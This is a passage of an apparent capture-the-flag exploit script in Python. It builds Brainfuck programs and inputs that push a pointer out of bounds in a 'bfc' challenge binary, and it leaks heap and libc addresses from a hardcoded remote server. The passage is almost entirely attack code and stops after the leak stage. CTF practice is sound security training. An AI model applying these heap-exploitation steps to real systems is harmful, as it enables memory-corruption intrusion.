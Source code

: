 ```python
    data2 += pad*(x//step) + b'\x00'

def ptr_sub(x, pad=b'a', step = 8):
    global code
    global data
    code += b",[" + b'<'*step + b",]"
    data += pad*(x//step) + b'\x00'

def ptr_sub2(x, pad=b'a', step = 8):
    global code
    global data2
    code += b",[" + b'<'*step + b",]"
    data2 += pad*(x//step) + b'\x00'

def write_bytes(x):
    global code
    global data
    code += b".>"*x

def read_bytes(content, forword=False):
    global code
    global data
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data += content

def read_bytes2(content, forword=False):
    global code
    global data2
    if forword:
        code += b',>'*len(content)
    else:
        code += b','*len(content)
    data2 += content

def main():
    
    global code
    global data
    global p
    global data2

    p=remote('119.13.89.159',3301)
    #p=remote('0.0.0.0', 3344 )
    #p = process("./bfc")
    
    ptr_add(0x20)
    ptr_sub(0x20+0x10+0x18, b'\x90')
    code += b'<'*8
    # 泄露heap
    write_bytes(0x8)
    ptr_add(0x18+0x10+0x400)
    # 防止chunk合并
    code += b'??'
    ptr_add(0x400)
    ptr_sub(0x800+0x10+0x800+0x20, b'\xe0', 0x10)
    read_bytes(b'\xe0')
    # 泄露 libc
    write_bytes(0x8)
    code += b'>'*0x8

```